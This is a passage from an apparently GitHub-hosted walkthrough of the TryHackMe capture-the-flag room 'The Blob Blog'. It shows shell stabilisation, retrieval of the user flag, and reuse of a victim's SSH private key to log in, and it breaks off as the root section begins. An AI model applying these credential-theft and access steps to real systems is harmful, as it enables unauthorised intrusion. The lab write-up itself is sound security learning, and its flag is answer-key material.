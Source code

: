 I spawned a TTY shell and started looking for the user flag and found it in `/home/bobloblaw/Desktop`:

~~~
$ SHELL=/bin/bash script -q /dev/null
bobloblaw@bobloblaw-VirtualBox:~$ cd /home/bobloblaw/Desktop
bobloblaw@bobloblaw-VirtualBox:/home/bobloblaw/Desktop$ cat user.txt
THM{C0NGR4t$_g3++ing_this_fur}

@jakeyee thank you so so so much for the help with the foothold on the box!!
~~~

User Flag: `THM{C0NGR4t$_g3++ing_this_fur}`

## Connecting via SSH

There is a SSH private key in `/home/bobloblaw/.ssh/id_rsa`. Copy it to your machine, set its permission to 600 and now we can connect to the target machine via ssh as user `bobloblaw`:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/The_Blob_Blog/files]
└─$ chmod 600 bll_rsa
                                                                                                                      
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/The_Blob_Blog/files]
└─$ ssh -i bll_rsa bobloblaw@$IP
Welcome to Ubuntu 17.04 (GNU/Linux 4.10.0-19-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * "If you've been waiting for the perfect Kubernetes dev solution for
   macOS, the wait is over. Learn how to install Microk8s on macOS."

   https://www.techrepublic.com/article/how-to-install-microk8s-on-macos/

0 packages can be updated.
0 updates are security updates.

Failed to connect to http://changelogs.ubuntu.com/meta-release. Check your Internet connection or proxy settings

Last login: Sun Nov 21 03:38:19 2021 from 10.9.1.83
bobloblaw@bobloblaw-VirtualBox:~$ id
uid=1000(bobloblaw) gid=1000(bobloblaw) groups=1000(bobloblaw),4(adm),24(cdrom),30(dip),46(plugdev),121(lpadmin),131(sambashare)
~~~

## Going root

### Rabbit holes

I dont't wanna waste your time, so I'm gonna go through the rabbit holes first. Then i will show you da way.
